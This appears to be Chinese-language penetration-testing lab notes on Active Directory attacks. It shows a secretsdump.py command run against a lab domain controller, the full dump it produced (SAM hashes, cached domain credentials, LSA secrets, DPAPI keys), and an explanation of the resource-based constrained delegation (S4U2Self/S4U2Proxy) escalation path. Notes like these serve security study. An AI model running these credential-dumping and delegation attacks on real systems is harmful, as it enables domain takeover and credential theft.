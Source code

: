 DCSync

```jsx
⚡ root@kali  ~/Desktop/Tools/pywerview/output  secretsdump.py -k -no-pass server01.sunset.com -dc-ip 192.168.111.167        
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xe38420c0ae384190c7869bd3a72c8750
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f98564f9c7fab916678466075899f6e1:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
SUNSET.COM/test:$DCC2$10240#test#3cecc3d61e12d28d2398cde8631251c0: (2025-02-23 08:48:08)
SUNSET.COM/Administrator:$DCC2$10240#Administrator#e0f7d91244ea00c524d6981b2e118de8: (2025-02-23 08:44:01)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
SUNSET\SERVER01$:plain_password_hex:6000620061005b00350054005f006d005e003d00510064006700720079002c007a007a00420068003b00790030004a007000770047006b0023004400570021003b006c003d006b0059003b005c0022006c003d003f005300430061002e00290076006f00350047002d0077005a00420055002f005d0030002e004600630039004c0026003e0061006c00300058004e002d00250032002c002c005d003a0054003f007100400041007300750079005300660030006f003e00460038003e00620046006f0073006f003d004d00670062006f003b00500054005e002f005f0051002b003b0022003b005b00230041004c00
SUNSET\SERVER01$:aad3b435b51404eeaad3b435b51404ee:9d925982a1feff69ff7708d1aa7e95fd:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x0a502629e4f5d71335be8df4fa89995c7fe827bd
dpapi_userkey:0x53551029fe705233ace52f72b86760181b0bcb81
[*] NL$KM 
 0000   6D 1C C4 32 85 88 55 96  21 61 C1 B9 A8 AE FA 15   m..2..U.!a......
 0010   41 71 8C D4 31 CB F5 74  3F 75 67 13 39 5B E0 CD   Aq..1..t?ug.9[..
 0020   1C EF 25 18 87 E9 49 F0  5B 9B F2 C1 97 83 CE 5F   ..%...I.[......_
 0030   44 58 B3 E8 0D 4D 37 77  ED B1 BC 6F 57 7E 79 75   DX...M7w...oW~yu
NL$KM:6d1cc432858855962161c1b9a8aefa1541718cd431cbf5743f756713395be0cd1cef251887e949f05b9bf2c19783ce5f4458b3e80d4d3777edb1bc6f577e7975
[*] Cleaning up... 
```

## 原理

1. test 执行 `S4U2Self`，请求一个 `TGS` 票据，对外宣称 administrator 在访问自己
    
    （test 是机器用户，所以可以请求`S4U2Self`）
    
2. test 使用 S4U2Self 获得的 administrator 的 `TGS` 票据，代表server01执行 `S4U2Proxy`，生成一个服务票据，表示 administrator 在访问 SERVER01 的 CIFS 服务
    
    （SERVER01 的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性必须包含 test 的 SID，表明 SERVER01 信任 test 执行委派）
    
3. 使用 `S4U2Proxy` 生成的服务票据，攻击者以 administrator 的身份访问 SERVER01 的 CIFS 服务

## 服务账户提权

原理：在 **域环境** 下，IIS、MSSQL、Network Service 这些 **低权限的服务账户** 在访问网络资源（如共享文件、LDAP、SQL Server）时，默认会使用 **本机的计算机账户（Machine Account）**，而不是它们自己的本地权限

